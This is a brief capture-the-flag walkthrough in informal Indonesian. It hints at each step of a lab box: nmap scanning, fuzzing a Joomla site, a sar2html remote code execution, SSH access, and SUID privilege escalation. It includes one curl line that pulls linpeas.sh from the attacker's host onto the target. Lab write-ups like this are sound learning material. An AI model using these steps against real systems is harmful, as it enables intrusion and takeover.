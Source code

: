 ### Q1:
 
## File extension after anon login :
- cek ke ftp, ls -la aja ada tuh .apa

## What is on the highest port? :
- cek di nmap, kasih -p- dah,  nanti ada tuh service apa di port paling tinggi

## What's running on port 10000? :
- cek di nmap 

##  Can you exploit the service running on that port? (yay/nay answer) :
- keknya webmin gabisa di exploit dah, nay aja dah

## What's CMS can you access? :
- cek yang port 80 dah http, disitu fuzz aja nanti ada tuh cms disitu

##  Keep enumerating, you'll know when you find it. :
- dapet joomla fuzz lagi aja nanti ada vuln
- nah ada dir _test tuh cek aja
- dia ada sar2html, cek di google sar2html exploit, nanti ada rce

## The interesting file name in the folder? :
- run aja command ls di rce nya, nanti ada yg menarik dari situ


### Q2 :

## Where was the other users pass stored(no extension, just the name)? :
- cek aja pas udah ssh kesana ls in aja ada file menarik

## user.txt :
- cek aja di user yang di user satunya, pake ls -la nanti ada, bukan flag ternyata

## What did you exploit to get the privileged user? :
- pake linpeas, gabisa wget curl aja, curl ip:port/linpeas.sh -o linpeas.sh
- dia kek binary sudo, nanti suid

## root.txt :
- di root lah

